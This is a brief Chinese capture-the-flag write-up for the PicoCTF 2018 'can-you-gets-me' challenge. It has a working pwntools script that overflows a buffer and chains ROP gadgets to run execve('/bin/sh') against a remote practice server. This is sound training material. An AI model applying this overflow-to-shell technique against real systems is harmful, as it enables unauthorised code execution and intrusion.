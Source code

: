 ELF静态编译

溢出后调用`gets()`，在bss段写入`/bin/sh\x00`，然后通过`inx 0x80`方式进行系统调用，执行`execve('/bin/sh', 0, 0)`

easy，终于有一道基本上完全是自己想思路然后实现的题了=。=

```python
from pwn import *

context.os = 'linux'
context.arch = 'i386'
# context.log_level = 'debug'

io = remote('node4.buuoj.cn', 27061)
e = ELF('./PicoCTF_2018_can-you-gets-me')

log.info(hex(e.bss()))

pop_eax_ret = 0x80b81c6
pop_edx_ecx_ebx_ret = 0x806f050
int_0x80 = 0x806cc25

payload1 = b'a'*(0x18 + 4) + p32(e.sym['gets']) + p32(pop_eax_ret) + p32(e.bss())
payload1 += p32(pop_eax_ret) + p32(11) + p32(pop_edx_ecx_ebx_ret) + p32(0)*2 + p32(e.bss())
payload1 += p32(int_0x80)

payload2 = b'/bin/sh\x00'
io.sendline(payload1)
io.send(payload2)
io.interactive()
```
